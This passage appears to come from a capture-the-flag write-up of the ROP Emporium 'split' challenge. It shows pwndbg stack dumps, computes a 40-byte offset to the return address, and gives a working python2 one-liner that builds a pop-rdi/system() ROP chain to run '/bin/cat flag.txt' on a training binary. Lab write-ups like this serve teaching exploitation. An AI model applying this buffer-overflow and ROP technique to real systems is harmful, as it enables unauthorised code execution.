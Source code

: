 ```c

   0x400750 <usefulFunction+14>    nop
   0x400751 <usefulFunction+15>    pop    rbp
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsi rsp 0x7fffffffe030 ◂— 'AAAABBBBCCCCDDDD\n'
01:0008│         0x7fffffffe038 ◂— 'CCCCDDDD\n'
02:0010│         0x7fffffffe040 ◂— 0xa /* '\n' */
03:0018│         0x7fffffffe048 ◂— 0x0
04:0020│ rbp     0x7fffffffe050 —▸ 0x7fffffffe060 ◂— 0x0
05:0028│         0x7fffffffe058 —▸ 0x4006d7 (main+64) ◂— mov    edi, 0x400806
06:0030│         0x7fffffffe060 ◂— 0x0
07:0038│         0x7fffffffe068 —▸ 0x7ffff7de40b3 (__libc_start_main+243) ◂— mov    edi, eax
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0         0x400735 pwnme+77
   f 1         0x4006d7 main+64
   f 2   0x7ffff7de40b3 __libc_start_main+243
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Lets view the base pointer and stack values,

```c
pwndbg> x/2wx $rbp
0x7fffffffe050:	0xffffe060	0x00007fff
pwndbg> x/30wx $rsp
0x7fffffffe030:	0x41414141	0x42424242	0x43434343	0x44444444
0x7fffffffe040:	0x0000000a	0x00000000	0x00000000	0x00000000
0x7fffffffe050:	0xffffe060	0x00007fff	0x004006d7	0x00000000
0x7fffffffe060:	0x00000000	0x00000000	0xf7de40b3	0x00007fff
0x7fffffffe070:	0xf7ffc620	0x00007fff	0xffffe158	0x00007fff
0x7fffffffe080:	0x00000000	0x00000001	0x00400697	0x00000000
0x7fffffffe090:	0x00400760	0x00000000	0x476a4495	0x0e66cfe5
0x7fffffffe0a0:	0x004005b0	0x00000000
```

So our base pointer is at ```0x7fffffffe050``` and our buffer begins at ```0x7fffffffe030```

```c
>>> print(0x7fffffffe050-0x7fffffffe030)
32
```

The buffer space is ```32 bytes```

Now we have to pass ```40 bytes``` (32+8) of junk to reach Instruction Pointer

Our payload can be crafted as,

``` payload = 40 bytes of junk + Addr of POP RDI gadget + Addr of argument + Call Addr of system() ```


Address of POP RDI gadget = 0x00000000004007c3

Address of argument data (/bin/cat flag.txt) = 0x00601060

Address of call inst to system() = 0x000000000040074b

Lets try our exploit,

```c
ra@moni:~/split$ python2 -c "print('A'*40+'\xc3\x07\x40\x00\x00\x00\x00\x00'+'\x60\x10\x60\x00\x00\x00\x00\x00'+'\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split
split by ROP Emporium
x86_64

```